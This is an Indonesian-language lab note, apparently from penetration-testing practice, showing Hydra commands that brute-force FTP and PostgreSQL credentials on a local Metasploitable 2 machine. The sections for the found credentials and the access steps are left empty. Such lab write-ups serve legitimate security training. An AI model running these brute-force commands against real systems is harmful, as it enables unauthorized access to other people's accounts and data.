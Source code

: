 # Hydra
- IP Metasploitable 2 di local: 192.168.1.114

## Brute Force FTP Credentials
- Gunakan perintah: `hydra -L user-metasploitable2.txt -P password-metasploitable2.txt 192.168.1.114 ftp`
- Username dan password yang ditemukan:

- Melakukan akses ke FTP Server:

## Brute Force PostgreSQL Credentials
- Gunakan perintah: `hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 192.168.1.114 postgres`
- Username dan password yang ditemukan:

- Melakukan akses ke PostgreSQL:


